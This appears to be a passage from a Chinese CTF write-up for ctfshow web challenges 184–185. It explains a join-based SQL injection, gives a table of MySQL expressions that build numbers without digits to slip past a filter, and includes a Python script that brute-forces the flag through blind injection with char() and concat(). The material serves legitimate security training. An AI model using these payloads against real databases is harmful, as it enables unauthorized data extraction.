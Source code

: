 原理是 SQL 在用 left / right join 时会默认包含 left / right 表的内容, 然后在对被包含的那张表使用 on + like 进行模糊查询

使用别名的原因是两个都是 ctfshow_user 表需要区分一下, 不然会报错

## web185

差不多同上, 但过滤了 0-9 的数字

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T
```

用上表绕过 (我自己比较懒... 就直接用 true 一直加)

脚本写的比较乱, 主要是用 `concat() + char()` 函数配合 `true` 一直加构造 payload

注意百分号

```python
import time
import requests

flag = ['c','t','f','s','h','o','w','{']

dicts='{1234567890-qwertyuiopasdfghjklzxcvbnm}'

def tofunc(n):
    strs = ''
    for _ in range(n):
        strs += '+true'
    return 'char(' + strs + ')'

for i in range(1,64):
    for s in dicts:
        payload = flag + list(s)
        payload.append('%')
        concat_payload = 'concat(' + ','.join([tofunc(ord(x)) for x in payload]) + ')'
        data = {'tableName': 'ctfshow_user group by pass having pass like {}'.format(concat_payload)}
        url = 'http://0f317f70-eec6-43b0-bc0a-f8e0eb4bb961.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 0') == -1:
            flag.append(s)
            print(''.join(flag))
            time.sleep(3)
            break
```
